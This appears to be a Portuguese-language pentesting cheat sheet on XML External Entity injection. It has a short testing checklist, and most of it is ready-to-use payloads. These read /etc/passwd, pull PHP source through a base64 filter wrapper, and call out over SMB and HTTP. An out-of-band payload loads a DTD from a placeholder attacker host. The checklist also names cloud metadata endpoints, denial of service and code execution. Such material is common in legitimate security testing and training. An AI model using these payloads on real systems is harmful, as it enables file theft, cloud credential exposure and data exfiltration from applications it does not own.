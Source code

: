 # XML External Entity
:hamburger: A vulnerabilidade XXE (XML External Entity) ocorre quando a aplicação processa dados XML de maneira inadequada, permitindo que um atacante insira entidades externas no XML.

## :fries:Checklist

- Identifique "pontos de entrada" que faz o processamento do XML
- Identifique "ponto de entrada" que aceita JSON enviando XML
- Identifique "ponto de entrada" que aceita imagens usando SVG
- Identifique "ponto de entrada" que aceita documentos usando arquivos DOCX ou PDF
- Use Content-Type: application/xml
- Tente identificar o arquivo DTD interno
- Teste "external entities" com um payload simples
- Teste "external entities" para ler arquivos internos (Ex.: for Linux /etc/passwd)
- Teste "external entities" com requisição para endpoint externos (Ex.: collaborator or webhook.site)
- Teste "external entities" com requisição para endpoints internos (Ex.: EC2 metadata endpoint http://169.254.169.254/latest/meta-data)
- Observe filtros e restrições: "trigger" mensagens de erro para exfiltrar informações
- Teste "denial of service"
- Teste "execução de código"
Test for code execution

```
## Formulário de Login 

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [<!ENTITY foo SYSTEM "file:///etc/passwd" >]>
     	  <login> 
        <username>&foo;</username>
        <password>1234</password>         
        </login>
        
## PHP Wripper 

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [<!ENTITY foo SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/3/.arquivo.php" >]>
     	  <login> 
     	  <username>&foo;</username>
          <password>1234</password>         
          </login>
```

### XXE to SMB  
```
<!DOCTYPE test [ <!ENTITY req SYSTEM "\\[IP]/teste"> ]>
```
### XXE to HTTP
```
<!DOCTYPE test [ <!ENTITY req SYSTEM "http://[IP]/teste"> ]>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://[IP]> %xxe; ]>
```
### XXE Out-of-Band 1
```
## Payload inserido na requisição

<?xml version="1.0"?>
<!DOCTYPE test [
<!ELEMENT test ANY >
<!ENTITY % req SYSTEM "http://[IP-ATACANTE]:443/file.dtd">
%req;
```